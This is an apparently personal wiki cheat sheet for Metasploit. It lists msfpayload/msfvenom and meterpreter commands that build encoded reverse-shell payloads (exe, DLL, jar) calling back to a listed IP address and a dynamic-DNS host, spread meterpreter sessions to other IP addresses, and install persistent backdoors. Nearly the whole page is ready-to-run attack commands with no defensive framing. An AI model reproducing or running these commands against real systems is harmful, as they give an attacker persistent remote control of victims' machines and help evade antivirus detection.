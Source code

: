 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)
# MSFVenom


Following is pretty old.  MSFvenom instead of msfpayload, but things I need to look up.
Encrypting
./msfpayload windows/meterpreter/reverse_tcp LHOST=71.229.140.156 LPORT=9999 R | ./msfencode -t exe > meterp.exe
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1)

NEW ONE:
./msfpayload windows/meterpreter/reverse_tcp_dns LHOST=olympus.dyns.cx LPORT=9998 R | ./msfencode -c 10 -t exe > meterp.exe

Make a DLL exploit with msfpayload
msfpayload windows/exec CMD=calc.exe D > test.dll

Java Jar file (note the [R]aw and not [J]avascript output.)
./msfpayload java/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT 9996 R > file.jar 

[Payload in a DLL](/payloaddll) - (msfvenom can do this now, but interesting for future anyway.)

# Meterpreter

Sending Shells to other people

run duplicate -D -r -e executable_to_inject -p 4444 -r listenhost

Next command will send meterpreters to each ip in -mr list

run multi_meter_inject -pt windows/meterpreter/reverse_https -mr 10.128.129.200,10.128.129.201 -p 443


# Known Attack Patterns
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

# MSFDB Commands
# MSF RPC Connections